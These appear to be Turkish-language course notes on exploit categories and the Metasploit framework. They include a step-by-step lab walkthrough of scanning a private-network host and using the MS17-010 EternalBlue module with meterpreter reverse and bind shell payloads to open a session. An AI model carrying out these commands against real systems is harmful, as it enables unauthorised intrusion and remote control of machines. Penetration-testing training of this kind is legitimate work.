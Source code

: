# Giriş #
## Exploitler ##
  1. Remote Exploitler
  2. Local Exploitler
  3. Web Exploitleri
  4. DoS Exploitleri - Servis Dışı Bırakma
  5. 0day, 1day
  * PAYLOAD -> karşı tarafta nasıl sömüreceğiz? shell mi almak istiyoruz, firewall kuralları mı yazacağız, backdoor mu açacağız?

# METASPLOIT #
  - `msfupdate`
  - `msfdb init` update sonrası yapmak gerekiyor
  - `msfconsole` metasploit açıldı
  - `ctrl+l` satırı yukarı almak
  - `db_status` postgresql veritabanına bağlı mıyım
  - `workspace -a akademi` akademi çalışma ortamı oluşturuldu
  - `workspace -d akademi` silme
  - `workspace akademi2` gibi aralarında değişim yapılabilir.
  - `nmap 192.168.1.200 -oX 200.xml` metasploit kapalıyken tarama yapıp xml dosyası olarak çıktı aldık.
    - msfconsole'u açtık `db_import /root/200.xml` dosyası içeri aldık.
    - `hosts` diye aradığımda hemen çıkıyor
    - `services
  - `vulns` nessus taramasını da atıp buraya atıp zafiyetleri görebiliriz
---
  - `db_nmao 192.168.1.113 -sV` taramasını yaptık direkt olarak kaydedildi.
    - `hosts`
    - `services`
      - `services -h` help dosyası
      - `services -S vsftp` vsftp içerenleri getir
      - `services -S http` http yerine tcp veya udp de yazılabilir.
  - `help`
  - `search ms17-010` ms17-010 zafiyeti ile ilgili bir şey var mı diye aratıyoruz
    - `info 1` 1 numaralı zafiyetin bilgileri
    - `use 1` 
       - `options` RPORT 445, RHOSTS boş
       - `set THREADS 10` 10 thread'te tara
       - `set RHOSTS 192.168.1.200` tek bir hedef belirledik 
       - `services -p 445` 445 portu açık olanlar neler?
       - `services -p 445 -R` böyle yaparak direkt olarak sonucu RHOSTS'a ekledik
       - `run` exploit çalıştı. zafiyet olup olmadığını söyledi.  (VULNERABLE- Host does NOT appear vulnerable)
       - `back` modülden çıktık
  - `search ms17-010` tekrar. eternalblue olanı seçicez
    - `use 2`
    - `options`
    - `set RHOSTS 192.168.1.200`
    - `show targets` windows 7 r2'de çalışıyor sadece
    - _Payload options (windows/x64/meterpreter/reverse_tcp):_  bu zaten default olarak geldi
    - `show payloads` 
      - bind_tcp ile reverse_tcp farkı nedir?
      - Reverse Shell: zafiyeti sömür ve sisteme "ben seni kendi makinemde 4444'te bekliyorum gel bana bağlan ve komut satırını ver" veya meterpretere içeri girdiğini söyle buradan konuşalım diyor.
      - Bind Shell: Karşıdaki zafiyeti sömürdük ve karşı makinede bir port açıyoruz. Biz o porta gidiyoruz. 
      - Neden bunlara ihtiyaç duyuluyor. firewall olsa arada reverse burada daha iyi. 
    - `set PAYLOAD windows/x64/meterpreter/bind_tcp`
    - `run`
    - olmadı `search ms17` diyip başka bir modül seçiyoruz
    - `use 10`
    - `options`
    - `show targets`
    - `set RHOSTS 192.168.1.200`
    - `run` BAĞLANDIK
    - `sysinfo` ile makine bilgilerini aldık.
  
# 2_24 METASPLOIT 4'TE KALDIK #

       






















